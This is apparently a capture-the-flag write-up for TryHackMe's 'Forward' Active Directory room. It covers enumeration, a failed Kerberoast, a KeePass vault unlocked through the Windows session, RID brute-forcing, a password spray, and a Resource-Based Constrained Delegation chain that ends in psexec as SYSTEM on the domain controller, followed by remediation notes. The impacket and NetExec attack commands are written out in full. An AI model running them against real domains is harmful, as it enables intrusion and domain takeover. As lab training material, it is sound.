







## Overview

**Forward** is an assumed-breach Active Directory challenge on TryHackMe: there's no initial-access puzzle to solve, the room hands you a low-privilege domain account and dares you to see how far it goes.




```text
USER > ctf.local\j.smith
PASS > JSmith@IT2024
```

The whole domain turns out to be a single host — `DC01.ctf.local` — so there's no lateral movement between machines here, only privilege escalation within one box. The path runs through a locally unlocked password manager, a chain of credential reuse surfaced by a domain-wide spray, and ends in textbook Resource-Based Constrained Delegation abuse against the DC itself.



### Tools used

| Stage | Tools |
|-------|-------|
| Recon | `nmap` |
| Domain enumeration | `bloodhound-python`, BloodHound, `rpcclient`, `nxc` (NetExec) |
| Credential attacks | `impacket-GetUserSPNs`, `hashcat`, `nxc --rid-brute` / password spray |
| Local loot | KeePass (Windows user-account authentication) |
| Privilege escalation | `impacket-addcomputer`, `impacket-rbcd`, `impacket-getST`, `impacket-psexec` |

---

## Enumeration

### Port scan

With the target's IP pointed at `ctf.local` in `/etc/hosts`, a standard version/script scan gives the usual domain-controller fingerprint.

```bash
sudo echo '10.112.178.32 ctf.local' >> /etc/hosts
export IP=10.112.178.32
nmap -sV -sC -Pn $IP
```

```text
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-06-30 22:28:32Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: ctf.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: ctf.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: CTF
|   NetBIOS_Domain_Name: CTF
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: ctf.local
|   DNS_Computer_Name: DC01.ctf.local
|   Product_Version: 10.0.17763
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Only one computer object exists in the whole environment — `DC01` — confirmed a moment later by BloodHound's collection summary (`Found 1 computers`). There's nowhere to move laterally to; every step from here is about climbing privilege on the same box.

### BloodHound collection and a Kerberoasting dead end

With `j.smith`'s credentials in hand, the first move is to map the domain and check the obvious Kerberos attack.

```bash
bloodhound-python -u j.smith -p 'JSmith@IT2024' -d ctf.local -ns $IP -c all --zip
```

```text
INFO: Found 1 domains
INFO: Found 1 computers
INFO: Found 8 users
INFO: Found 54 groups
```

```bash
impacket-GetUserSPNs -dc-ip $IP ctf.local/j.smith:JSmith@IT2024 -request -outputfile kerb.hash
```

```text
ServicePrincipalName     Name          MemberOf  PasswordLastSet             Delegation
-----------------------  ------------  --------  --------------------------  -----------
helpdesk/DC01            svc.helpdesk            2026-05-20 18:35:56.137405  constrained
helpdesk/DC01.ctf.local  svc.helpdesk            2026-05-20 18:35:56.137405  constrained
```

`svc.helpdesk` is Kerberoastable and — worth remembering for later — already configured for **constrained delegation**. I grabbed the TGS and threw it at `rockyou.txt`:

```bash
hashcat -m 13100 kerb.hash /usr/share/wordlists/rockyou.txt
```

```text
Status...........: Exhausted
Recovered........: 0/1 (0.00%) Digests (total), 0/1 (0.00%) Digests (new)
```

No hit. `svc.helpdesk`'s password isn't in the list, so this path is parked rather than abandoned — a service account with delegation rights is exactly the kind of thing worth revisiting if another credential surfaces for it later. As it turns out, nothing ever cracks that hash and the account plays no further role — the privilege escalation this room is actually built around runs through a completely different account and a different flavor of delegation, found much later. Worth noting here only because it's a red herring I want to be upfront about, not a clue that paid off.

---

## Initial Foothold — KeePass via Windows Authentication

With RDP open on the DC and `j.smith`'s credentials in hand, the obvious move is to just log in and look around. A KeePass install turns up on the desktop with a `Database.kdbx` file. Normally that's a dead stop without the master password — except KeePass supports binding a database to the current **Windows user account** as part of (or instead of) a master key. Since we're logged in as the account the database expects, the software unlocks it for us with no credential prompt at all.



> KeePass's "Windows User Account" key option ties database decryption to `CryptProtectData`/DPAPI under the logged-in user's profile. It's meant as a convenience so the same user doesn't retype a master password — but it means anyone who inherits that user's session (a stolen token, a compromised RDP session, or credentials handed to you by a CTF room) inherits the unlocked vault too.
{: .prompt-tip }

Three entries are stored. One is a real credential:



```text
Help Desk Portal
t.jones : <HELPDESK_PW>
Notes: IT Help Desk ticketing system credentials
```

The other is a leftover KeePass tutorial artifact, not a real secret — its URL points at `keepass.info/help/kb/testform.html`, and the password quality meter flags it at a laughable 6 bits of entropy:



```text
Sample Entry #2
Michael321 : <SAMPLE_PW>
```

Worth a five-second sanity check, but this looks like noise rather than a domain account — nothing about the name matches the naming convention (`firstinitial.lastname`) the rest of the directory uses, and the RID brute-force a bit further down confirms it: no `Michael321` shows up anywhere in the domain's user list.

---

## Domain Enumeration — Pivoting on t.jones

BloodHound already told us `t.jones` sits in **Remote Desktop Users**, which turns the Help Desk Portal credential into an interactive foothold rather than just an SMB login.



A quick access check across the usual protocols:

```bash
nxc smb $IP -u t.jones -p '<HELPDESK_PW>' -d ctf.local
nxc winrm $IP -u t.jones -p '<HELPDESK_PW>' -d ctf.local
nxc ldap $IP -u t.jones -p '<HELPDESK_PW>' -d ctf.local
```

```text
SMB    [+] ctf.local\t.jones:<HELPDESK_PW>
WINRM  [-] ctf.local\t.jones:<HELPDESK_PW>
LDAP   [+] ctf.local\t.jones:<HELPDESK_PW>
```

SMB and LDAP work, WinRM doesn't — not every service accepts the account, so RDP (already confirmed via group membership) stays the plan for an interactive session.

I RDP'd in as `t.jones` and went through the usual spots — desktop, documents, recent files, the ticketing-portal shortcuts — but nothing useful turned up. No second credential, no interesting note, nothing like the KeePass find from `j.smith`'s session. Rather than keep digging through one user's files, it made more sense to widen the search to the rest of the domain.

### Domain password policy and a full user list

With an authenticated session, a bit of general domain recon is worth doing before deciding what to do next:

```bash
rpcclient -U "t.jones%<HELPDESK_PW>" $IP -c getdompwinfo
```

```text
min_password_length: 7
password_properties: 0x00000001
DOMAIN_PASSWORD_COMPLEX
```

Complexity is enforced domain-wide, but that only constrains what passwords *can* be set — it says nothing about whether guessing them repeatedly is safe. More useful right now is the full account list, since only `j.smith`, `t.jones`, and `svc.helpdesk` have surfaced so far:

```bash
nxc smb $IP -u t.jones -p '<HELPDESK_PW>' --rid-brute | grep SidTypeUser
```

```text
500: CTF\Administrator
501: CTF\Guest
502: CTF\krbtgt
1008: CTF\DC01$
1609: CTF\j.smith
1610: CTF\t.jones
1611: CTF\r.williams
1612: CTF\svc.helpdesk
```

RID brute-forcing over an authenticated SMB session enumerates the full user list — it needs *a* valid session, not an admin one, so an ordinary domain account is enough to sidestep the anonymous-enumeration restrictions most domains enforce by default. That gives us every account in the domain, including `r.williams`, who hadn't shown up anywhere yet.

With a full target list in hand, the obvious next move is spraying the one password we already know against everyone on it — but only if the domain won't lock accounts out for it:

```bash
nxc smb $IP -u t.jones -p '<HELPDESK_PW>' --pass-pol
```

```text
Minimum password length: 7
Account Lockout Threshold: None
```

**No account lockout threshold** — the complexity policy checked earlier is real, but there's nothing stopping repeated guesses. That turns a single known password into a legitimate spray candidate rather than a one-off credential.

### Password reuse: r.williams

The RID-brute output above, saved to `users.txt`, gives the spray its target list:

```bash
nxc smb $IP -u users.txt -p '<HELPDESK_PW>' --continue-on-success | grep '\[+\]'
```

```text
[+] ctf.local\r.williams:<HELPDESK_PW>
[+] ctf.local\t.jones:<HELPDESK_PW>
```

`r.williams` reuses the exact same help-desk password. That's the pivot the room actually wants — BloodHound had shown nothing interesting hanging off `t.jones` directly, but `r.williams` is a different story.

---

## Privilege Escalation — Resource-Based Constrained Delegation

Logging into `r.williams`'s RDP session and poking around the desktop turns up a note about a background automation job:

```text
C:\Users\r.williams\Desktop\Automation-Notice.txt
------------------------------------------------
HelpDesk Automation Notice
A background process handles automatic ticket processing and
service account maintenance for the HelpDesk system.
The automation runs periodically and stores temporary working
files in C:\Windows\Temp.
```

`C:\Windows\Temp` holds a base64 blob, `HelpDesk-Auth.b64`. Decoding it and pulling the printable strings out is enough to tell what it is without needing a full ASN.1 parser — service principal names inside a `.kirbi`/ccache blob are stored in cleartext even though the ticket body itself is encrypted:

```bash
base64 -d HelpDesk-Auth.b64 | strings
```

```text
CTF.LOCAL
krbtgt
ctf.local
svc.helpdesk
20260520183514Z
20260521043514Z
20260527183514Z
```

It's a cached TGT for `svc.helpdesk` — and the auth timestamp (`2026-05-20 18:35:14`) lines up almost to the second with the `PasswordLastSet` value from the earlier Kerberoast dump. It's an interesting side-artifact — almost certainly dropped by the same automation job that made `svc.helpdesk` Kerberoastable in the first place — but it wasn't the thread that paid off here, so I didn't chase it further.

The thread that did pay off was in BloodHound: `r.williams` holds an `AddAllowedToAct` edge against the domain controller itself.



`AddAllowedToAct` means `r.williams` can write to `DC01$`'s `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute — the attribute that drives **Resource-Based Constrained Delegation (RBCD)**. Whoever controls that attribute on a computer object can name *any* principal as trusted to impersonate *any* domain user when authenticating to that computer, via Kerberos's S4U2Self/S4U2Proxy extensions. Since we don't control an existing computer account, the standard move is to create one — a normal user is allowed to join up to ten machines to the domain by default (`ms-DS-MachineAccountQuota`) — and then set that new machine as trusted to delegate to `DC01$`.

```bash
impacket-addcomputer -method SAMR -computer-name 'ATTACKER$' -computer-pass '<HELPDESK_PW>' \
  -dc-ip $IP 'ctf.local/r.williams:<HELPDESK_PW>'
```

```text
[*] Successfully added machine account ATTACKER$ with password <HELPDESK_PW>.
```

```bash
impacket-rbcd -delegate-from 'ATTACKER$' -delegate-to 'DC01$' -action write \
  -dc-ip $IP 'ctf.local/r.williams:<HELPDESK_PW>'
```

```text
[*] Delegation rights modified successfully!
[*] ATTACKER$ can now impersonate users on DC01$ via S4U2Proxy
```

Kerberos is strict about clock skew, so before requesting tickets it's worth syncing time against the DC:

```bash
sudo ntpdate $IP
```

With `ATTACKER$` trusted to delegate, `impacket-getST` walks the S4U2Self → S4U2Proxy chain to mint a service ticket for `Administrator` on the `cifs` service:

```bash
impacket-getST -spn 'cifs/DC01.ctf.local' -impersonate Administrator \
  -dc-ip $IP 'ctf.local/ATTACKER$:<HELPDESK_PW>'
```

```text
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_DC01.ctf.local@CTF.LOCAL.ccache
```

```bash
export KRB5CCNAME=./Administrator@cifs_DC01.ctf.local@CTF.LOCAL.ccache
impacket-psexec -k -no-pass DC01.ctf.local
```

```text
[*] Found writable share ADMIN$
[*] Uploading file jBvWURGa.exe
[*] Creating service oWoq on DC01.ctf.local.....
Microsoft Windows [Version 10.0.17763.1821]

C:\Windows\system32>
```

The forged `cifs` ticket is enough for `psexec` to place and run a service binary via `ADMIN$` — full code execution on the domain controller as `NT AUTHORITY\SYSTEM` in every practical sense.

```powershell
C:\Users\Administrator\Desktop> type flag.txt
```

> **Flag** — `THM{...}`, read from `C:\Users\Administrator\Desktop\flag.txt`.
{: .prompt-info }

---

## Conclusion

Forward is a short chain, but every link is a distinct, realistic AD misconfiguration:

1. **Session-bound secrets** — a KeePass database configured for Windows-account authentication meant anyone inheriting `j.smith`'s session inherited the unlocked vault, no master password required.
2. **Credential reuse** — the help-desk password recovered from KeePass turned out to also belong to a second, more privileged account, discoverable only because the domain enforced no account lockout.
3. **Over-permissive delegation rights** — `r.williams` could write `msDS-AllowedToActOnBehalfOfOtherIdentity` on the domain controller's computer object, which combined with the default machine-account quota is enough to go from a domain user to `SYSTEM` on the DC with no exploit code at all — just Kerberos working exactly as designed.

### Remediation notes

- Never enable "Windows User Account" as the sole KeePass authentication method on a shared or remotely-accessible session; require a master password that isn't tied to the OS session.
- Enforce unique passwords per account and set a real account lockout threshold — password complexity alone doesn't stop reuse from being discovered via spraying.
- Audit `GenericWrite`/`GenericAll`/`AddAllowedToAct`-style rights on computer objects, especially domain controllers, with BloodHound on a recurring basis — RBCD misconfigurations are invisible from the ACL editor's default view.
- Set `ms-DS-MachineAccountQuota` to `0` unless self-service machine joins are actually required; it's the enabling factor that lets any domain user create the computer account an RBCD attack needs.

*Happy hacking*
